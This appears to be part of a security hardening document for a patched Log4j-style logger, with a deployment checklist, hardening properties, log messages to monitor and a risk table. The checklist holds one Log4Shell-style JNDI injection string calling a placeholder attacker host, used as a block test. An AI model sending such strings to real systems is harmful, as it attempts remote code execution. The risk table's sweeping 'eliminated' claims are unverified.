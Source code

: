 
## Production Deployment

### Security Validation Checklist ✅

Before deploying to production, verify:

- [ ] ✅ **JNDI Patterns Blocked**: Test that `${jndi:ldap://attacker.com/payload}` returns unchanged
- [ ] ✅ **Security Warnings Logged**: Verify JNDI attempts are logged with warnings
- [ ] ✅ **System Property Set**: Confirm `log4j2.disable.jndi=true` is default
- [ ] ✅ **No Network Calls**: JNDI patterns don't trigger network connections
- [ ] ✅ **Functional Logging**: Non-JNDI logging patterns work normally

### Deployment Configuration

#### Recommended System Properties
```properties
# Explicit JNDI disable (already defaults to true)
log4j2.disable.jndi=true

# Optional: Additional security hardening
log4j2.formatMsgNoLookups=true
```

#### Production Monitoring
Monitor for these security-related log messages:
- `"JNDI lookups are DISABLED for security hardening"`
- `"Blocked JNDI variable substitution attempt for security"`
- `"SECURITY: Blocked JNDI lookup attempt"`

---

## Risk Assessment & Compliance

### Security Risk Level: ✅ **MINIMAL**

| Risk Category | Level | Mitigation Status |
|---------------|-------|-------------------|
| **JNDI Injection** | ✅ ELIMINATED | Complete removal of JNDI lookup capability |
| **Remote Code Execution** | ✅ PREVENTED | No JNDI-based attack vectors possible |
| **Information Disclosure** | ✅ BLOCKED | JNDI patterns cannot leak information |
| **Network-based Attacks** | ✅ PREVENTED | No network connections via JNDI patterns |

### Compliance Status
- ✅ **Security Baseline**: Exceeds industry security standards
- ✅ **Vulnerability Management**: All known JNDI vulnerabilities addressed
- ✅ **Defense in Depth**: Multiple security layers implemented
- ✅ **Monitoring Ready**: Security events logged for detection

---